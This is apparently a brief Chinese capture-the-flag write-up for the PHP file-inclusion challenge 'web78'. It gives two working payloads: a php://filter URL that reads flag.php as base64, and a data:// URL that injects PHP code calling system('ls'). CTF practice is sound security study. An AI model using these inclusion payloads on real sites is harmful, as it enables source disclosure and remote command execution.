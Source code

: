 # web78
![](vx_images/237846030738046.png)

无过滤,直接伪协议读取flag
```
file=php://filter/read=convert.base64-encode/resource=flag.php
```
也可以用data协议
```
/?file=data://text/plain,<?=system('ls')?>
```
![](vx_images/394142458489006.png)
